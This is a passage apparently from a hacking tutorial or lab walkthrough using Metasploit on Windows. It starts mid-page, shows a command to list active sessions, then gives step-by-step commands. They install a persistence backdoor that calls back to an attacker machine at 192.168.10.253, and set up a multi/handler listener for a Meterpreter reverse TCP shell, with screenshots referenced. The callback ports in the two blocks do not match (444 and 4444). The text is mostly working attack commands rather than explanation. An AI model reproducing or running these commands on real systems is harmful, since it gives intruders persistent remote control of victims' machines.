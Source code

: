 then run 
```bash
session
```

![](attachment/ea6cf5e67443ee6d550672fde22c697d.png)
> Figure 10 | Active Sessions

**Now lets set up this backdoor: -**
```bash
# Set the current payload
use exploit/windows/local/persistence

# Shows options
show options

# Set the payloads options
set SESSION 1 
set LHOST 192.168.10.253
set LPORT 444
set INTERVAL 5

exploit
```

**Setting up the listener: -**
```bash
# Setting the module
use exploit/multi/handler

# setting the payload
set PAYLOAD windows/meterpreter/reverse_tcp

# Setting the local host : Kali Linux Machine
set LHOST 192.168.10.253

# Setting the Local Port
set LPORT 4444

# Run the exploit in the background.
# -j runs the shell in the background. 
# -z Tells metasploit not to interact with the shell
exploit -j -z 
```

![](attachment/3457cff3c82872e93d78dfffe00c6560.png)
